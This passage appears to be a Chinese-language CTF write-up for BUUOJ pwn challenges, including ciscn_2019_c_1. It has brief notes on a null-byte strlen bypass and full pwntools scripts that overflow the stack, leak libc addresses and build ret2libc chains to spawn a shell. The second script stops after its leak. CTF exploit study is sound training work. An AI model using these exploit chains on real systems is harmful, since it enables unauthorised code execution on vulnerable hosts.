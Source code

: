 ```c
```
很长，fd打开随机数生成文件，将前四位赋值给buf，所以导致他为随机数，然后来到sub_804871F函数，buf变成了a1，，然后要考虑这个比较，比较bufhes的前v1个字符，所以要求v1=0，而strlen函数遇到0x00就会停止，是的v1=0，然后考虑的是返回的buf[7]，第三个函数当a1足够大时，就会造成栈溢出，所以要求直接修改buf[7]的值，所以构造
>payload1=b'\0x00'+b'a'*6+b'\0xff'*2

而用IDA查看了，没有后面函数，就要用ret2libc了
exp:
```python 
from pwn import *
from LibcSearcher import *
r=remote('node5.buuoj.cn',25080)
context(os = 'linux', arch = 'amd64', log_level = 'debug')
elf=ELF('./1')
payload1=b'\x00'+b'a'*6+b'\xff'*2
r.sendline(payload1)
r.recvuntil('Correct\n')
write_got=elf.got['write']
write_plt=elf.plt['write']
main_addr=0x08048825
payload2=b'a'*(0xe7+4)+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
#write（1，write_got，4），write的返回地址为main
r.sendline(payload2)
write_addr=u32(r.recv(4))
print(hex(write_addr))
libc=LibcSearcher('write',write_addr)#寻找libc版本
libc_base=write_addr-libc.dump('write')#寻找基址
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
r.sendline(payload1)
r.recvuntil('Correct\n')
payload3=b'a'*(0xe7+4)+p32(system_addr)+p32(0)+p32(bin_sh_addr)
r.sendline(payload3)
r.interactive()
```


## ciscn_2019_c_1

>知识点：ret2libc

```python
from pwn import*
from LibcSearcher import*
 
r=remote('node5.buuoj.cn',26681)
elf=ELF('./3')
 
main = 0x400B28
pop_rdi = 0x400c83
ret = 0x4006b9
 
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
 
r.sendlineafter('Input your choice!\n','1')
offset = 0x50+8
payload = b'\x00'+b'a'*(offset-1)
payload=payload+p64(pop_rdi)
payload=payload+p64(puts_got)
payload=payload+p64(puts_plt)
payload=payload+p64(main)
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)
r.recvline()
r.recvline()
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
```